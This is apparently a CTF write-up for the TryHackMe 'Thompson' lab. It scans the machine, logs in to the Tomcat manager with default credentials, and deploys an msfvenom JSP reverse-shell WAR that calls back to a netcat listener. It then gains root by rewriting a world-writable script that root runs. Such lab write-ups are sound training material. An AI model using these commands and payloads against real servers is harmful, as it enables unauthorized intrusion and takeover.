

# Thompson

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Challenge
Difficulty: Easy
OS: Linux
Subscription type: Free
Description: boot2root machine for FIT and bsides guatemala CTF
```

Room link: [https://tryhackme.com/r/room/bsidesgtthompson](https://tryhackme.com/r/room/bsidesgtthompson)

## Solution

### Check for services with nmap

We start by scanning the machine with `nmap`

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/Thompson]
└─$ nmap -v -sV -sC 10.10.91.178            
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-23 17:29 CEST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 17:29
Completed NSE at 17:29, 0.00s elapsed
Initiating NSE at 17:29
Completed NSE at 17:29, 0.00s elapsed
Initiating NSE at 17:29
Completed NSE at 17:29, 0.00s elapsed
Initiating Ping Scan at 17:29
Scanning 10.10.91.178 [2 ports]
Completed Ping Scan at 17:29, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:29
Completed Parallel DNS resolution of 1 host. at 17:29, 0.00s elapsed
Initiating Connect Scan at 17:29
Scanning 10.10.91.178 [1000 ports]
Discovered open port 8080/tcp on 10.10.91.178
Discovered open port 22/tcp on 10.10.91.178
Discovered open port 8009/tcp on 10.10.91.178
Completed Connect Scan at 17:29, 0.69s elapsed (1000 total ports)
Initiating Service scan at 17:29
Scanning 3 services on 10.10.91.178
Completed Service scan at 17:29, 6.49s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.91.178.
Initiating NSE at 17:29
Completed NSE at 17:29, 1.68s elapsed
Initiating NSE at 17:29
Completed NSE at 17:29, 0.20s elapsed
Initiating NSE at 17:29
Completed NSE at 17:29, 0.00s elapsed
Nmap scan report for 10.10.91.178
Host is up (0.044s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc052481987eb8db0592a6e78eb02111 (RSA)
|   256 60c840abb009843d46646113fabc1fbe (ECDSA)
|_  256 b5527e9c019b980c73592035ee23f1a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 17:29
Completed NSE at 17:29, 0.00s elapsed
Initiating NSE at 17:29
Completed NSE at 17:29, 0.00s elapsed
Initiating NSE at 17:29
Completed NSE at 17:29, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.00 seconds
```

We have three services running:

- OpenSSH v7.2p2 on port 22
- Apache Jserv (Protocol v1.3) on port 8009
- Apache Tomcat v8.5.5 on port 8080

Browsing manually to port 8080 shows a default Apache Tomcat/8.5.5 page.

### Scan for web content with gobuster

Next, let's try to identify common directories with `gobuster`

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/Thompson]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.91.178:8080 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.91.178:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/http%3A%2F%2Fwww     (Status: 400) [Size: 0]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 0]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 0]
/http%3A%2F%2Fblog    (Status: 400) [Size: 0]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 0]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

The page `/manager` sounds promising.

### Analyse the web page

When checking the webpage (`http://10.10.91.178:8080/manager`) we are prompted for a username and password.  
Pressing cancel shows this error page:



On the page we find the default username `tomcat` and password `s3cret`.  
These are also the correct credentials for the page.

### Upload a WAR file

Furher down on the `Tomcat Web Application Manager` page there is an option to deploy a [WAR file](https://en.wikipedia.org/wiki/WAR_(file_format)).

We can use `msfvenom` from [Metasploit](https://www.metasploit.com/) to create a reverse shell in WAR-format

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/Thompson]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.14.61.233 LPOST=4444 -f war -o rev_shell.war
Payload size: 1094 bytes
Final size of war file: 1094 bytes
Saved as: rev_shell.war
```

Next, we start a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/Thompson]
└─$ nc -lvnp 4444            
listening on [any] 4444 ...

```

and upload the reverse shell under `WAR file to deploy`.  
After uploading, trigger the reverse shell by selecting `/rev_shell` on the page.

### Get a reverse shell

Going back to the netcat listener, we now have a limited shell

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/CTFs/Easy/Thompson]
└─$ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.14.61.233] from (UNKNOWN) [10.10.91.178] 46760
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

Before doing anything else we upgrade the shell to a full TTY-shell

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@ubuntu:/$ 
```

### Get the user flag

Now we can start hunting for the user flag

```bash
tomcat@ubuntu:/$ find / -type f -name user.txt 2> /dev/null
find / -type f -name user.txt 2> /dev/null
/home/jack/user.txt
tomcat@ubuntu:/$ cat /home/jack/user.txt
cat /home/jack/user.txt
3<REDACTED>f
tomcat@ubuntu:/$ 
```

### Privilege escalation

Let's start our enumeration in the same directory where we found the user flag

```bash
tomcat@ubuntu:/$ cd /home/jack
cd /home/jack
tomcat@ubuntu:/home/jack$ ls -la
ls -la
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Jun 23 09:46 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
tomcat@ubuntu:/home/jack$ 
```

There are two non-standard files here: `id.sh` (which is writable for everyone!) and `test.txt`

```bash
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ cat test.txt
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
tomcat@ubuntu:/home/jack$ 
```

We might have a possibility to run code as `root` through the writable `id.sh` file

### Get the root flag

We only really want the content of the root flag so let's change the script to code that just cat `/root/root.txt`

```bash
tomcat@ubuntu:/home/jack$ echo -e '#!/bin/bash\ncat /root/root.txt > test.txt' > id.sh
<cho -e '#!/bin/bash\ncat /root/root.txt > test.txt' > id.sh                 
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
cat /root/root.txt > test.txt
tomcat@ubuntu:/home/jack$ 
```

Then we wait a while and check `test.txt`

```bash
tomcat@ubuntu:/home/jack$ cat test.txt
cat test.txt
d<REDACTED>a
tomcat@ubuntu:/home/jack$ 
```

Success!

For additional information, please see the references below.

## References

- [Apache Tomcat - Wikipedia](https://en.wikipedia.org/wiki/Apache_Tomcat)
- [Gobuster - Github](https://github.com/OJ/gobuster/)
- [Metasploit - Homepage](https://www.metasploit.com/)
- [echo - Linux manual page](https://man7.org/linux/man-pages/man1/echo.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [WAR (file format) - Wikipedia](https://en.wikipedia.org/wiki/WAR_(file_format))
